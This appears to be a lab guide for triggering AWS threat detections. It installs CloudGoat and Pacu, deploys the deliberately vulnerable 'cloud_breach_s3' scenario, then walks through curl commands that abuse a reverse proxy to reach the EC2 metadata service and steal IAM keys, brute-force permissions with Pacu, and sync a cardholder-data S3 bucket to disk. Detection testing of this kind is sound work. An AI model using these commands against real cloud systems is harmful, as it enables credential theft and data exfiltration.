









### Objective 
Quick attack to get account in critical quadrant (~20 minutes).
- Detections include
  - AWS Organization Discovery
  - AWS User Permissions Enumeration
  - AWS Suspicious Credential Usage
  - AWS Suspicious EC2 Enumeration
  - AWS S3 Enumeration


### Guide Notes
- There are other ways to install the tools and will depend on distro.
- Setting up the AWS profile may very based on an organizations requirements. For instance SSO would vary between org.

### Requirments
- Linux or MacOS. Windows is not officially supported.
  - If you are using Windows we recommand install [WSL2](https://docs.microsoft.com/en-us/windows/wsl/install)
  - If you are using a Linux virtual machine AWS EC2 is not supported
  - In this guide a new Ubuntu VM was created in VM Fusion.  This guide goes through setting up the Ubuntu VM.
- Python3.6+ is required.
- Terraform >= 0.14 installed and in your $PATH.
- The AWS CLI installed and in your $PATH, and an AWS account with sufficient privileges to create and destroy resources.
  - AWS [Named profile configured](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html)

### Install system prerequisites (may already be installed) 

```bash
sudo apt-get update && sudo apt install -y ssh vim net-tools curl git python3-pip 
```

### Install tools for attack (may already be installed) 
- Install awscli
   - Download the package
     ```bash
     curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
     ```
   - Unzip the installer 
     ```bash
     unzip awscliv2.zip
     ``` 
   - Run the install program
     ```bash
     sudo ./aws/install
     ```
- Install terraform
   - Terraform Prerequisites 
     ```bash
     sudo apt-get update && sudo apt-get install -y gnupg software-properties-common
     ```
   - Add the HashiCorp GPG key 
     ```bash
     curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
     ```
   - Add the official HashiCorp Linux repository 
     ```bash
     sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
     ```  
   - Update to add the repository, and install the Terraform CLI 
     ```bash
     sudo apt-get update && sudo apt-get install terraform
     ```

### Install Cloudgoat
  - Use git to clone the Cloudgoat repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/cloudgoat.git ~/cloudgoat && cd ~/cloudgoat
     ```
  - Install the Cloudgoat dependencies 
     ```bash 
     pip3 install -r ./core/python/requirements.txt && chmod u+x cloudgoat.py
     ```

### Install Pacu
  - Use git to clone the Pacu repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/pacu.git ~/pacu && cd ~/pacu
     ```
 - Install the Pacu dependencies 
     ```bash 
     pip3 install -r requirements.txt
     ```

### Setup AWS Profile
- Setup AWS profile for Cloudgoat.  This account will need admin access in AWS.  This will create or add a new profile in ```~/.aws/config``` and ```~/.aws/credentials```

- You will be prompted for ```Access Key ID, AWS Secret Access Key, Default region name, Default output format```
  ```bash
  aws configure --profile cloudgoat
  ```  
- Make the new aws profile your default 
  ```bash 
  export AWS_PROFILE=cloudgoat
  ```
- Verify credentials are working
  ```bash
   aws sts get-caller-identity
  ```

### Setup Cloudgoat
  - Run Cloudgoat config profile from home directory and set default profile.  You will be prompted to enter an AWS profile from the previous step which we called ```cloudgoat```.  This is how cloudgoat will access AWS.
     ```bash
     ~/cloudgoat/cloudgoat.py config profile
     ```
  - Run Cloudgoat config whitlelist
     ```bash
     ~/cloudgoat/cloudgoat.py config whitelist --auto
     ```

### Setup vulnerable infrastructure with Cloudgoat
Now that the tools are seutp we will use Cloudgoat to setup vulnerable infastuecure in AWS.  This will create a scenario with a misconfigured reverse-proxy server in EC2. 

  - Run the attack scenario 
     ```bash
     ~/cloudgoat/cloudgoat.py create cloud_breach_s3
     ```



- ***Copy the response to a text file*** you will need the EC2 IP

### Start attack
At this point we have created vulnerable infrastucute in AWS using Cloudgoat.  Starting as an anonymous outsider with no access or privileges, exploit a misconfigured reverse-proxy server to query the EC2 metadata service and acquire instance profile keys. Then, use those keys to discover, access, and exfiltrate sensitive data from an S3 bucket.

- Replace ```<ec2-ip-address>``` with the IP address from the previoues step to get a role name.  ***Copy the response to a text file*** as you will need the role name for the next attack
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
 ```
 


- Replace ```<ec2-ip-address>``` and ```<ec2-role-name>``` from the previous steps to get the keys. ***Copy response to text file*** as you will need these stolen crendentials
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
 ```

  
  
- Next we will use pacu to do discovery with the stolen crendentials
  - Start pacu from the shell session by running ```~/pacu/cli.py```
  - Create new session in pacu named ```cloud_breach_s3```
  - Set the keys using ```set_keys``` from the pacu session using the stolen credentials from the previous step



- Use pacu to start disocvery using the following modules
  - ```run aws__enum_account``` Get account details:  permission denied 
  - ```run iam__enum_permissions``` Get permissions for IAM entity:  permission denied
  - ```run iam__enum_users_roles_policies_groups``` Get group polices for IAM entity:  permission denied
  - ```run iam__bruteforce_permissions``` Brute force for access to services: **BINGO!**



- The stolen credentials have full access to S3
  - Exit pacu by typing ```exit``` and return to attack
- Create a new aws profile with stolen credentials
 ```bash
 aws configure --profile cloud_breach_s3
 ```
 - Set the ```AWS Access Key ID``` and ```AWS Secret Access Key``` using the stolen crendentials
 - Set the "Default region" name and the "Default output" format to ```json```
 - Manually add the ```aws_session_token``` to the aws credentails file (use i for insert mode then esc :wq to save and close)
   ```bash
   vi  ~/.aws/credentials
   ```


- List and search buckets the stolen credentails have access to
   ```bash
   aws s3 ls --profile cloud_breach_s3
   ```

- Download data from the ``cardholder-data`` bucket to local system home directory.  Replace ```<bucket-name>``` with the bucket to download data
   ```bash
   aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3
   ```
- Change to home directory and perfom list to verify data was downloaded
   ```bash
   cd && ls
   ```

- Remove vulnerable infrasturecure
   ```bash
   ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3
   ```
- Attack had been completed.  Review the detections in dfaws dashboard.  